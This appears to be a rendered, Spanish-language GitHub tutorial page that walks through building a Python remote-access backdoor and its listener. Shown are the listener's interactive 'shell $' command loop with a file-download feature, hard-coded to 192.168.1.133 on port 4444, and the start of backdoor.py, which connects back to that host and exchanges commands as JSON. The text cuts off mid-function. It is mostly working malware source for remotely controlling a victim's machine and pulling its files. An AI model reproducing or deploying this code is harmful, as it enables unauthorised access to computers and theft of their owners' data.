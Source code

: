 ```bash
      
    def ejecutar_remoto(self,comando):
        self.envio_seguro(comando)
        
        if comando[0] == "salir":
            self.connection.close()
            exit()
            
        return self.reception_segura()
    
    def escribir_archivo(self,ruta,contenido):
        with open(ruta,"wb") as file:
            file.write(contenido.encode())
            return "[+] Descarga completa!!"

    def run(self):
         while True:
            comando = input("shell $ ")
            comando = comando.split(" ")
            resultado = self.ejecutar_remoto(comando)
            if comando[0] == "descargar":
                resultado = self.escribir_archivo(comando[1],resultado)
            print("\n" + resultado)

escuchar = Listener("192.168.1.133",4444)

escuchar.run()
```

![implemenatmos opcion de descargar ubuntu](https://user-images.githubusercontent.com/97669969/157447537-8cca432a-a6cc-49b9-bba7-e65dc9a378e0.png)



# MEJORA DE CODIGO IMPLEMENTAMOS "descargar" IMAGENES Y MEJORAMOS listener y backdoor
 
 * backdoor.py

```bash
import socket
import subprocess
import json
import os
import base64

class Backdoor:

    def __init__(self,ip,port):
        self.connection = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        self.connection.connect((ip,port))
        self.connection.send("\n [+] Conexion establecida \n".encode())
    
    def envio_seguro(self, datos):
        json_data = json.dumps(datos)
        self.connection.send(json_data.encode())

    def reception_segura(self):
        json_data = ""
        
        while True:
            try:
             
               json_data = self.connection.recv(1024).decode("utf-8")
               return json.loads(json_data)
```